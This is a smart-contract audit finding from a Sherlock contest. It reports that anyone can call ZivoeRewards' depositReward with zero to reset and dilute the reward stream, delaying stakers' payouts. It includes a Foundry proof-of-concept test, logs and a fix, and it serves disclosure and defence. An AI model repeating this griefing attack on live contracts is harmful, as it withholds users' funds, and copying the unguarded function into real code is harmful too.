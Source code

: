 Jumpy Yellow Kitten

medium

# A malicious actor can withold up to 25% of rewards from ZivoeRewards for multiple months for all users at no cost

## Summary

The `depositReward(rewardToken,amount)` function is called by the Zivoe YDL to deposit monthly rewards which can then be distributed to the various actors. If a deposit happens while there is still a reward being distributed, the leftover reward will add with the deposited reward to calculate a new rewardRate and the reward duration will reset to 30 days.


However, anyone can call this function and it does not revert when called with with `0`. 

If a malicious actor were to do this, at day 15 of 30, the 50% remaining reward get averaged over a new 30 day cycle with a diluted `rewardRate`. He can repeat this every 15 days to further which cause part of the funds to remain locked even after 90 days. 

## Vulnerability Detail

Assume Sam has staked in ZivoeRewards, a reward has been deposited and after 30 days he is supposed to receive 100 DAI in rewards.

At day 15, Bob calls `depositReward(DAI,0)`
The function takes the remaining 50 DAI left in the reward and distributes this over 30 days. 

At day 30, Sam calls `getRewards` & Bob calls `depositReward(DAI,0)`
He receives 50 DAI + 50% of the ongoing distribution = 25  => 75 DAI. 

At day 45, Bob calls  `depositReward(DAI,0)` 
The function takes the remaining 12.5 DAI left in the reward and distributes this over 30 days. 
 
At day 60, Sam calls `getRewards` & Bob calls `depositReward(DAI,0)`
He receives 12.5 DAI + 50% of the ongoing distribution = 6.25  => 18.75 DAI. 

At day 75, Bob calls  `depositReward(DAI,0)`
The function takes the remaining 6.25 DAI left in the reward and distributes this over 30 days. 
 
At day 90, Sam calls `getRewards`
He receives 3.125 DAI + 50% of the ongoing distribution = 1.56  => 4.69 DAI. 

Only **now**, after 90 days does he have close to the rewards that he should have gotten after 30 days, 98.44 DAI

I've recreated the above example in a solidity POC. 
Place the below test in `zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol` and run with `forge test --rpc-url MainNetAPI --match-test test_DilutionRewards -vv`

This will provide the following Log Output:

>[PASS] test_DilutionRewards() (gas: 658958)
>     Logs:
>  Original amount of rewards being distributed over the duration of 30 days: 99
>  Amounts of rewards being distributed after 1st dilution: 49
 > Amounts of rewards being distributed after 2nd dilution: 24
  >The TOTAL DAI that sam received as rewards at day 30: 74
  >Amounts of rewards being distributed after 3rd dilution: 12
  >Amounts of rewards being distributed after 4th dilution: 6
  >The TOTAL DAI that sam received as rewards at day 60: 93
  >Amounts of rewards being distributed after 5th dilution: 3
  >The TOTAL DAI that sam received as rewards at day 90: 98




 ```solidity
import "../../lib/forge-std/src/console.sol";
    function test_DilutionRewards() public {
        uint256 deposit = 100 ether;

        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));

        // Protocol deposits 100 ether rewards, 30 days rewardduration.
        depositReward_DAI(address(stZVE), deposit);

        // At day 15, bob the hacker calls depositRewards for 0 to dilute the rewards
        hevm.startPrank(address(bob));
        hevm.warp(block.timestamp + 15 days);
        console.log("Original amount of rewards being distributed over the duration of 30 days: %s", stZVE.getRewardForDuration(DAI)/1e18);
        depositReward_DAI(address(stZVE), 0);
        console.log("Amounts of rewards being distributed after 1st dilution: %s", stZVE.getRewardForDuration(DAI)/1e18);
        hevm.stopPrank();
    
        // At day 30, sam tries to get his rewards and bob dilutes the rewards again. 
        hevm.warp(block.timestamp + 15 days);
        hevm.startPrank(address(bob));
        depositReward_DAI(address(stZVE), 0);
        console.log("Amounts of rewards being distributed after 2nd dilution: %s", stZVE.getRewardForDuration(DAI)/1e18);
        hevm.stopPrank();  
        hevm.startPrank(address(sam));
        stZVE.getRewards();
        console.log("The TOTAL DAI that sam received as rewards at day 30: %s", IERC20(address(DAI)).balanceOf(address(sam))/1e18);
        hevm.stopPrank();

        // At day 45, bob the hacker calls depositRewards for 0 to dilute the rewards
        hevm.warp(block.timestamp + 15 days); 
        hevm.startPrank(address(bob));
        depositReward_DAI(address(stZVE), 0);
        console.log("Amounts of rewards being distributed after 3rd dilution: %s", stZVE.getRewardForDuration(DAI)/1e18);
        hevm.stopPrank();
        
        // At day 60, sam tries to get his rewards and bob dilutes the rewards again. 
        hevm.warp(block.timestamp + 15 days);
        hevm.startPrank(address(bob));
        depositReward_DAI(address(stZVE), 0);
        console.log("Amounts of rewards being distributed after 4th dilution: %s", stZVE.getRewardForDuration(DAI)/1e18);
        hevm.stopPrank();  
        hevm.startPrank(address(sam));
        stZVE.getRewards();
        console.log("The TOTAL DAI that sam received as rewards at day 60: %s", IERC20(address(DAI)).balanceOf(address(sam))/1e18);
        hevm.stopPrank();

        // At day 75, bob the hacker calls depositRewards for 0 to dilute the rewards
        hevm.warp(block.timestamp + 15 days); 
        hevm.startPrank(address(bob));
        depositReward_DAI(address(stZVE), 0);
        console.log("Amounts of rewards being distributed after 5th dilution: %s", stZVE.getRewardForDuration(DAI)/1e18);
        hevm.stopPrank();
    
        // At day 90, sam tries to get his rewards. 
        hevm.warp(block.timestamp + 15 days);  
        hevm.startPrank(address(sam));
        stZVE.getRewards();
        console.log("The TOTAL DAI that sam received as rewards at day 90: %s", IERC20(address(DAI)).balanceOf(address(sam))/1e18);
        hevm.stopPrank();

    }
```

## Impact

Per Sherlock Rules, this finding falls under Medium.

>V. How to identify a medium issue:
>   - Causes a loss of funds but requires certain external conditions or specific states, or a loss is highly constrained. The losses must exceed small, finite amount of funds, and any amount relevant based on the precision or significance of the loss.
>   - Breaks core contract functionality, rendering the contract useless or leading to loss of funds.

The following factors put the impact well within Medium category:
- 25% of user rewards are locked for 30 days, after which a remaining 7% remain locked for an additional 30 days and 2% remaining even after that.
- The above effect will happen for every Reward deposited by the YDL and affects **ALL** users. 
- From a financial standpoint, this is a direct definite loss in terms of yield/time. 
- Even if users can receive 98%+ after 3 months, this is a loss since $100 today > $98 60 days later. (nominal vs real value). 
- There are no conditions or specific states required, the attack is as simple as can be.

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L225-L249
## Tool used

Manual Review + Foundry

## Recommendation

Either implement access control on the deposit reward function so that only the necessary contracts can use it. 
Or implement an amount check such that the cost of the attack exceeds any reasonable threshold. 